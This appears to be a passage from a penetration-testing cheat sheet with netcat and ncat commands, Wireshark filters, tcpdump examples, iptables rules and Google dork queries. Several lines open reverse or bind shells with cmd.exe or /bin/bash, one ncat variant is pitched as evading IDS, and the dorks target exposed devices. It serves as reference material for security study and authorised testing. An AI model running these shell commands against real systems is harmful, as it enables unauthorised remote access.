 Receive a file using netcat
nc -nlvp 4444 &gt; incoming.exe

Create a reverse shell with Ncat using cmd.exe on Windows
nc -nlvp 4444 -e cmd.exe

Create a reverse shell with Ncat using bash on Linux
nc -nv $ip 4444 -e /bin/bash

Ncat - Netcat for Nmap project which provides more security avoid IDS

Reverse shell from windows using cmd.exe using ssl
ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl

Listen on port 4444 using ssl
ncat -v $ip 4444 --ssl

Wireshark

Show only SMTP (port 25) and ICMP traffic: tcp.port eq 25 or icmp

Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet: ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16

Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs: ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip

Some commands are equal ip.addr == 10.43.54.65 Equals ip.src == 10.43.54.65 or ip.dst == 10.43.54.65

ip.addr != 10.43.54.65 Equals ip.src != 10.43.54.65 or ip.dst != 10.43.54.65

Tcpdump

Display a pcap file
tcpdump -r password\_cracking\_filtered.pcap

Display ips and filter and sort
tcpdump -n -r password\_cracking\_filtered.pcap | awk -F" " '{print $3}' | sort -u | head

Grab a packet capture on port 80
tcpdump tcp port 80 -w output.pcap -i eth0

Check for ACK or PSH flag set in a TCP packet
tcpdump -A -n 'tcp\[13\] = 24' -r password\_cracking\_filtered.pcap

IPTables deny traffic to ports except for Local Loopback

iptables -A INPUT -p tcp --destination-port 13327 \\! -d $ip -j DROP iptables -A INPUT -p tcp --destination-port 4444 \\! -d $ip -j DROP
Information Gathering & Vulnerability Scanning
Passive Information Gathering
Google Hacking

Google search to find website sub domains
site:microsoft.com site:[www.microsoft.com](http://www.microsoft.com)

Google filetype, and intitle
intitle:”netbotz appliance” “OK” -filetype:pdf

Google inurl
inurl:”level/15/sexec/-/show”
